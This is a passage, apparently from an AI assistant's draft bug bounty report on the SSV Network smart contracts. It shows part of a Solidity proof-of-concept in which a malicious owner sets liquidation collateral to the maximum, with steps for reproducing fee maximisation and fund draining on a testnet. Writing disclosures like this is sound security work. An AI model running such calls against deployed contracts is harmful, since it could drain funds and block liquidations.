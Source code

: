 ```solidity
        // All accumulated fees are drained to the owner
    }
    
    function attackLiquidationParams() external {
        // Malicious owner sets liquidation collateral to maximum
        ssvNetwork.updateMinimumLiquidationCollateral(type(uint256).max);
        
        // This makes liquidation impossible, protecting malicious operators
    }
}
```

**Steps to reproduce:**
1. Deploy SSV Network contracts to testnet
2. Call `attackMaxFee()` - observe network fee set to maximum
3. Call `attackDrainFunds()` - observe all network earnings drained
4. Call `attackLiquidationParams()` - observe liquidation made impossible

## 4. Attachments
Attach: `BUG_BOUNTY_SUBMISSION_6.md` from `/home/vega/projects/ssv-network/`

Would you like me to copy the `BUG_BOUNTY_SUBMISSION_6.md` file to the ssv-network directory as well? 